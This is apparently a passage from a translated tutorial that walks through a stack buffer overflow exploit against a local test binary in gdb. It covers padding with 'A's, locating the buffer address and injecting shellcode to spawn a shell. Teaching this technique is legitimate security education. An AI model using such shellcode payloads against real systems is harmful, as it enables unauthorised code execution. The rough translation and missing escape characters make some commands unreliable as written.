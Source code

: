 Observe the code of print(). After executing strcp () must be in the stack and data we provide. Hence we place a breakpoint (a point where the program stops until we give the order to continue).

(gdb) br \*print +27  
Breakpoint 1 at 0x80484dd  
Placed at the breakpoint.

(gdb) run \`perl -e ‘print “A”x144’\`  
Starting program: /home/arget/vuln \`perl -e ‘print “A”x144’\`

Breakpoint 1, 0x080484dd in print ()  
We proceed to run it with the same amount of bytes that will put him (addresses vary depending on the size of the arguments passed to the program) .The execution stops at the breakpoint we had placed and can analyze the situation

    (gdb) x/16x $esp
    0xffffd1e0:     0xffffd1f0      0xffffd4d2      0xf7e5f549      0x000000c2
    0xffffd1f0:     0x41414141      0x41414141      0x41414141      0x41414141
    0xffffd200:     0x41414141      0x41414141      0x41414141      0x41414141
    0xffffd210:     0x41414141      0x41414141      0x41414141      0x41414141
    

We found that from 0xffffd1f0 begins our fruit. So if we put the 0xffffd1f0 address in EIP, will proceed to execute our shellcode (because there you will place). Do not forget to adjust the size of the filling we put depending on the size of the shellcode (in our case 23). \[The attentive reader will have appreciated that where points esp still remains the direction of our buf, is the argument passed to strcpy(), and the next address in the stack corresponds to the argument to main() (which is obtained as the argument of print ())\]

(gdb) run \`cat sc.o\`\`perl -e 'print "A"x(140-23) . "xf0xd1xffxff"'\`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/arget/vuln \`cat sc.o\`\`perl -e 'print "A"x(140-23) . "xf0xd1xffxff"'\`

Breakpoint 1, 0x080484dd in imprimir ()  
(gdb) c  
Continuing.  
1�Ph//shh/bin��PS���  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����  
process 13260 is executing new program: /usr/bin/bash  
Error in re-setting breakpoint 1: No symbol table is loaded. Use the “file” command.  
Error in re-setting breakpoint 1: No symbol table is loaded. Use the “file” command.  
Error in re-setting breakpoint 1: No symbol table is loaded. Use the “file” command.  
warning: Could not load shared library symbols for linux-vdso.so.1.  
Do you need “set solib-search-path” or “set sysroot”?  
Error in re-setting breakpoint 1: No symbol table is loaded. Use the “file” command.  
Error in re-setting breakpoint 1: No symbol table is loaded. Use the “file” command.  
sh-4.4$ whoami  
arget  
sh-4.4$

Now we proceed to try out the debugger

$ /home/arget/vuln \`cat sc.o\`\`perl -e 'print "A"x(140-23) . "xf0xd1xffxff"'\`
1�Ph//shh/bin��PS���
                    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault (\`core' generado)
